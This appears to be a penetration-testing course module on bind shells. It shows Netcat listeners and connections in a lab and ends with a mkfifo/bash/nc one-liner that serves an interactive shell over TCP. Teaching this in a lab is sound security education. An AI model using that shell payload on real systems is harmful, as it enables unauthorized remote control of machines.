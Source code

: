 In many cases, we will be working to establish a shell on a system on a local or remote network. This means we will be looking to use the terminal emulator application on our local attack box to control the remote system through its shell. This is typically done by using a `Bind` &/or `Reverse` shell.

---

## What Is It?

With a bind shell, the `target` system has a listener started and awaits a connection from a pentester's system (attack box).

#### Bind Example

![image](https://academy.hackthebox.com/storage/modules/115/bindshell.png)

As seen in the image, we would connect directly with the `IP address` and `port` listening on the target. There can be many challenges associated with getting a shell this way. Here are some to consider:

- There would have to be a listener already started on the target.
- If there is no listener started, we would need to find a way to make this happen.
- Admins typically configure strict incoming firewall rules and NAT (with PAT implementation) on the edge of the network (public-facing), so we would need to be on the internal network already.
- Operating system firewalls (on Windows & Linux) will likely block most incoming connections that aren't associated with trusted network-based applications.

OS firewalls can be troublesome when establishing a shell since we need to consider IP addresses, ports, and the tool in use to get our connection working successfully. In the example above, the application used to start the listener is called [GNU Netcat](https://en.wikipedia.org/wiki/Netcat). `Netcat` (`nc`) is considered our `Swiss-Army Knife` since it can function over TCP, UDP, and Unix sockets. It's capable of using IPv4 & IPv6, opening and listening on sockets, operating as a proxy, and even dealing with text input and output. We would use nc on the attack box as our `client`, and the target would be the `server`.

Let's get a more in-depth understanding of this by practicing with Netcat and establishing a bind shell connection with a host on the same network with no restrictions in place.

---

## Practicing with GNU Netcat

First, we need to spawn our attack box or Pwnbox and connect to the Academy network environment. Then make sure our target is started. In this scenario, we will be interacting with an Ubuntu Linux system to understand the nature of a bind shell. To do this, we will be using `netcat` (`nc`) on the client and server.

Once connected to the target box with ssh, start a Netcat listener:

#### No. 1: Server - Target starting Netcat listener

```shell-session
Target@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
```

In this instance, the target will be our server, and the attack box will be our client. Once we hit enter, the listener is started and awaiting a connection from the client.

Back on the client (attack box), we will use nc to connect to the listener we started on the server.

#### No. 2: Client - Attack box connecting to target

```shell-session
arenwald@htb[/htb]$ nc -nv 10.129.41.200 7777

Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
```

Notice how we are using nc on the client and the server. On the client-side, we specify the server's IP address and the port that we configured to listen on (`7777`). Once we successfully connect, we can see a `succeeded!` message on the client as shown above and a `received!` message on the server, as seen below.

#### No. 3: Server - Target receiving connection from client

```shell-session
Target@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51872 received!    
```

Know that this is not a proper shell. It is just a Netcat TCP session we have established. We can see its functionality by typing a simple message on the client-side and viewing it received on the server-side.

#### No. 4: Client - Attack box sending message Hello Academy

```shell-session
arenwald@htb[/htb]$ nc -nv 10.129.41.200 7777

Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
Hello Academy  
```

Once we type the message and hit enter, we will notice the message is received on the server-side.

#### No. 5: Server - Target receiving Hello Academy message

```shell-session
Victim@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51914 received!
Hello Academy  
```

Note: When on the academy network (10.129.x.x/16) we can work with another academy student to connect to their target box and practice the concepts presented in this module.

---

## Establishing a Basic Bind Shell with Netcat

We have shown that we can use Netcat to send text between the client and the server, but this is not a bind shell because we cannot interact with the OS and file system. We are only able to pass text within the pipe setup by Netcat. Let's use Netcat to serve up our shell to establish a real bind shell.

On the server-side, we will need to specify the `directory`, `shell`, `listener`, work with some `pipelines`, and `input` & `output` `redirection` to ensure a shell to the system gets served when the client attempts to connect.

#### No. 1: Server - Binding a Bash shell to the TCP session

```shell-session
Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

The commands above are considered our payload, and we delivered this payload manually. We will notice that the commands and code in our payloads will differ depending on the host operating system we are delivering it to.

Back on the client, use Netcat to connect to the server now that a shell on the server is being served.

#### No. 2: Client - Connecting to bind shell on target

```shell-session
arenwald@htb[/htb]$ nc -nv 10.129.41.200 7777

Target@server:~$  
```

We will notice that we have successfully established a bind shell session with the target. Keep in mind that we had complete control over both our attack box and the target system in this scenario, which isn't typical. We worked through these exercises to understand the basics of the bind shell and how it works without any security controls (NAT enabled routers, hardware firewalls, Web Application Firewalls, IDS, IPS, OS firewalls, endpoint protection, authentication mechanisms, etc...) in place or exploits needed. This fundamental understanding will be helpful as we get into more challenging situations and realistic scenarios working with vulnerable systems.

As mentioned earlier in this section, it is also good to remember that the bind shell is much easier to defend against. Since the connection will be received incoming, it is more likely to get detected and blocked by firewalls even if standard ports are used when starting a listener.